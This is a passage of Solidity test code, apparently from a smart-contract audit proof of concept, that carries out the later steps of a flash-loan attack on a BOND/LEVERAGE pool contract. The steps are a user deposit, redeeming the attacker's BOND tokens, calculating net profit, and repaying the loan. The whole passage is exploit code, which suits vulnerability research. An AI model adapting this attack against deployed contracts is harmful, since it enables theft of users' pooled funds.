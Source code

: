 ```solidity
        uint256 depositOfUser = 10 ether;
        Token(asset).approve(poolAddr, depositOfUser);
        uint256 mintedLeverageOfUser = localManipulatedPool.create(Pool.TokenType.LEVERAGE, depositOfUser, 0);
        console.log("Minted LEVERAGE of User:", mintedLeverageOfUser);

        vm.stopPrank();

         uint256 clAfterCreationOfLeverageUser = calculateCollateralLevel(
            localManipulatedPool,
            Token(asset),
            3000 * CHAINLINK_DECIMAL_PRECISION, 
            CHAINLINK_DECIMAL,
            100
        );
        console.log("Collateral level after creating LEVERAGE:", clAfterCreationOfLeverageUser);
        require(clAfterCreationOfLeverageUser >= 1200000, "Collateral level too low!");

        // STEP 3: => redeem(LEVERAGE of attacker) for ETH to repay the loan
        // ----------------------------------------
        localManipulatedPool.bondToken().approve(address(localManipulatedPool), mintedBond);
        uint256 redeemedBondValue = localManipulatedPool.redeem(
            Pool.TokenType.BOND,
            mintedBond,
            0
        );
        console.log("Redeemed BOND value:", redeemedBondValue);

         uint256 clAfterBondRedeem = calculateCollateralLevel(
            localManipulatedPool,
            Token(asset),
            3000 * CHAINLINK_DECIMAL_PRECISION, 
            CHAINLINK_DECIMAL,
            100 
        );

        console.log("Collateral level after BOND Redeem:", clAfterBondRedeem);
        require(clAfterBondRedeem >= 1200000, "Collateral level too low! after leverage redeem");

        // ----------------------------------------
        uint256 attackerEthBalance = Token(asset).balanceOf(address(this));
        console.log("Attacker ETH balance:", attackerEthBalance);

        // The amount the attacker needs to repay is the loan principal + loan premium
        uint256 loanRepay = loanPrincipal + loanPremium;
         require(attackerEthBalance >= loanRepay, "Not enough to repay loan!");

        // The attacker has made a profit
        uint256 netProfit = attackerEthBalance - loanRepay;
        console.log("Net profit:", netProfit);

        // Repay the loan
        Token(asset).transfer(msg.sender, loanRepay);
        return true;
    }
 ```
